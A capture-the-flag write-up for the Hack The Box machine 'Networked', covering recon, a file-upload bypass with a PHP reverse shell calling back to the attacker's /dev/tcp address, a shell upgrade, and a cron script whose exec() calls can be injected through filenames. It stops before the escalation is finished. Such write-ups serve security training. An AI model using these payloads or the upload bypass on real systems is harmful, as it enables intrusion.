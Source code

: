 # Networked

**Links:** [1](https://www.hackthebox.com/machines/Networked)  [2](https://app.hackthebox.com/machines/Networked)

**Machine ip:** 10.10.10.146

![networked](https://github.com/h4md153v63n/CTFs/assets/5091265/92cd2294-7d07-497d-8f0d-7ed00d4d5c9f)

## Reconnaissance
First thing first, start with port scan to see which ports are open and which services are running on those ports.
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.146 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.146 --open`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/75a583b5-e3f7-4d7d-bc33-12c1747da5ec)

+ The result shows that 2 tcp ports are open:
```
Port tcp 22: OpenSSH 7.4
Port tcp 80: Apache httpd 2.4.6
```


## Enumeration
+ As usual, always start off with enumerating web server first.
+ Visit the web application.
+ Navigate to `http://10.10.10.146/`, and see the text.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dfa167a8-c0a2-414c-8dd2-278a62540c7c)

+ Viev page source, and take note of **upload** with **gallery** paths.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a06ac56d-8266-4ee5-99e1-96d5284435cc)

+ As always, on each web app, start directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.146/ -k -n -x html,php,txt -r -t 30
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/360da068-3dd3-412f-80f2-5b85dd3d5ae4)

+ Visit **upload.php** page.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/02cf635c-1554-499f-a6ce-f996bf402e30)

+ Next, visit the **backup** directory. It contains a compressed file **backup.tar**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6e294d32-8a7e-4eda-9d1f-28aca1301525)

+ Download the file and decompress it: `tar xvf backup.tar -C backup/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ba492160-c355-46dd-bc06-b00b24a19f43)

+ It contains the source code of the php scripts running on the web server.
+ Check the code of **upload.php** file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0d3c93b1-9f06-44ee-90ad-e9343923f5f9)

+ Check the code of **lib.php** file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a8475de9-9279-40ed-9af0-2ed8d1f9653c)


## Gaining Access
+ Create a reverse shell **.php** file as **shell.php**, and then add one more extension as **.png** after **.php**. 
```
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/4444 0>&1'"); ?>
```

+ Change mimetype adding `GIF87a`.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53636d84-a81d-4051-a7ce-664e846b9855)

+ Upload it using browse button, and go.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/73fb950b-5722-4dd5-8f09-b12bb67e1677)

+ Start netcat listener on the attack machine: `nc -lnvp 4444`
+ Go to the **http://10.10.10.146/photos.php** that is discovered on the first directory fuzzing.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/938b2b01-5334-437a-8769-5de7d1585d15)

+ Get low level shell, and see the **web daemon user (www-data)**'s privilege is **not** enough to view the content of the user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7e030c55-ccc1-4d2d-987e-aae574a007fb)


### Shell Upgrade
+ We have partially interactive bash shell. Upgrade it to get a fully interactive shell, do more stable with a better shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL^Z: Ctrl + Z
stty raw -echo; fg
reset
terminal type? 'screen' or 'xterm'
export TERM=xterm  
export SHELL=bash
stty rows 55 columns 285
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a949dd60-e50c-4d98-8c1b-93ff60a0657c)


## Privilege Escalation: from 'www-data' to 'guly'
+ Escalate privileges to get the user flag.
+ Go to **/home/guly** directory, and list files.
+ **crontab.guly** file is interesting, and it runs **/home/guly/check_attack.php** every three minutes.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9b76943a-d7c7-486e-a01e-c019c359b3e5)

+ View the check_attack.php file.
```bash
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2c2845e5-7723-4b08-856d-546d84da1eb7)




# Technical Knowledge
+ xxx


# CVE Scripting
+ xxx


# References & Alternatives
+ https://vvmlist.github.io/#Networked
+ https://0xdf.gitlab.io/2019/11/16/htb-networked.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/networked-writeup-w-o-metasploit
+ xxx


# For More
+ xxx
